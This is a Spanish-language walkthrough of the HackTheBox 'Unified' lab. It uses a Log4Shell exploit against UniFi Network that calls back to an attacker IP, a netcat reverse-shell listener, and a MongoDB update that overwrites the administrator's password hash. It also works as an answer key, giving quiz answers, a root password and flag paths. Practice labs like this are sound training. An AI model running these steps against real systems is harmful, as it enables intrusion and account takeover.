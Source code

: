 ```yaml
---

---
```

1)¿Cuáles son los cuatro primeros puertos abiertos?
	22,6789,8080,8443

2)¿Cuál es el título del software que se está ejecutando en el puerto 8443?
	UniFi Network
	Salio del escaneo de nmap

3)¿Cuál es la versión del software que se está ejecutando?
	6.4.54
	![[Unified3.png]]

4)¿Cuál es el CVE de la vulnerabilidad identificada?
	CVE-2021-44228
	[Github donde esta el CVE](https://github.com/puzzlepeaches/Log4jUnifi)

5)¿Qué protocolo utiliza JNDI en la inyección?
	LDAP
	LDAP (Lightweight Directory Access Protocol) es un protocolo que permite acceder y administrar información organizada en forma jerárquica, como usuarios, grupos y dispositivos de red.  
	Se usa principalmente para autenticación y gestión de identidades en redes empresariales.  
	No usa SQL y está diseñado para consultas rápidas sobre datos estructurados tipo directorio.


6)¿Qué herramienta utilizamos para interceptar el tráfico que indica que el ataque ha tenido éxito?
	[[tcpdump]]

7)¿Para qué puerto necesitamos inspeccionar el tráfico interceptado?
	389

8)¿En qué puerto se ejecuta el servicio MongoDB?
	27117

9)¿Cuál es el nombre predeterminado de la base de datos para las aplicaciones UniFi?
	ace
	![[Unified9.png]]
	Es la ace por que es la unica que tiene peso

10)¿Cuál es la función que utilizamos para enumerar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.find()

11)¿Cuál es la función que utilizamos para actualizar usuarios dentro de la base de datos en [[mongodb]]?
	db.admin.update()

12)¿Cuál es la contraseña del usuario root?
	NotACrackablePassword4U2022

-------

# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.228.2
nmap -p- --open --min-rate 5000 -sS -n -Pn -vvv 10.129.228.2 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,6789,8080,8443,8843,8880 10.129.228.2 -oN target
```


![[Unified1.png]]
![[Unified2.png]]
*TTL:* Maquina linux
*Puertos:*
`22`SSH
`8080` Es un http
`6789, 8443, 8843, 8880` Estos todavia no sabemos para que son

--------
# Explotacion Unifi Network

Cuando entramos al puerto 8080 que dice que es un http, nos redirigue a esta pagina
![[Unified4.png]]

[Link del CVE](https://github.com/puzzlepeaches/Log4jUnifi), Hicimos la instalacion que esta en el github
Ejecutamos el exploit ``python3 exploit.py -u https://10.129.228.2:8443 -i 10.10.16.17 -p 443`` estando en escucha con [[nc -nlvp 443]]

![[Unified5.png]]

![[Unified6.png]]

------
# [[Tratamiento de la TTY]]

---
# Escalada de privilegios

ps aux | grep mongod

![[Unified7.png]]

Vemos que esta corriendo en el puerto 27117

Nos conectamos con mongo --port 27117
![[Unified8.png]]

Para ver las bases de datos `show dbs` y despues usamos la base de datos "ace" que es la unica que tiene contenido por el peso con `use ace`
Usamos comando ``db.admin.find()`` 
	**`admin` no es una colección por defecto**, sino una base de datos especial que contiene usuarios y configuraciones administrativas.
![[Unified11.png]]
```
{ "_id" : ObjectId("61ce278f46e0fb0012d47ee4"), "name" : "administrator", "email" : "administrator@unified.htb", "x_shadow" : "$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4."
```
Nos da la contraseña hasheada pero no se puede crackear


Entonces vamos a cambiar la contraseña del usuario administrator
Esa contraseña como empieza por $6 sabemos que es SHA-512 asi que creamos una nueva con [[mkpasswd]] ``mkpasswd -m sha-512 test123``

![[Unified12.png]]

``$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU.`` Esta es nuestra contraseña hasheada

```
db.admin.update({"_id":ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$sP2utyIhNX7e0kit$4ysm601QjS5IGZ50Ccru1AcaZ.BdiK96RBSyIweWoLewf7PY7Pf1cfyZbB7GjH5XUIUJFHJyU2UPcCDS3lDnU."}})
```

Ya esta cambiada la contraseña, ahora vamos a ingregar con las credenciales `administrator` y `test123`
![[Unified13.png]]


![[Unified14.png]]
En esta parte nos da la contraseña del usuario root `NotACrackablePassword4U2022` y nos podemos conectar por ssh

![[Unified15.png]]
Una vez dentro podemos ya podemos catear las flags

Las flags estan en /home/michaels/user.txt y /root/root.txt



--------
# Notas
Puerto 8080 es una variante para el puerto 80
Mongodb se llama la base de datos pero mongod es el demonio corriendo el proceso

`db.admin.find()` solo funcionaría si vos (o alguien) creaste una colección llamada `admin`, y no tiene relación con ver usuarios o permisos administrativos en MongoDB.

SHA-512Es **SHA-512** porque el hash empieza con `$6$`, que es el identificador estándar usado por la función `crypt()` en Linux para indicar el uso de SHA-512.
[Pagina para ver tipos de hashes](https://hashes.com/en/tools/hash_identifier)


--------
# Creditos
Writeup Oficial HackTheBox
Writeup [Datalife](https://thedatalife.com/hack-the-box-unified)


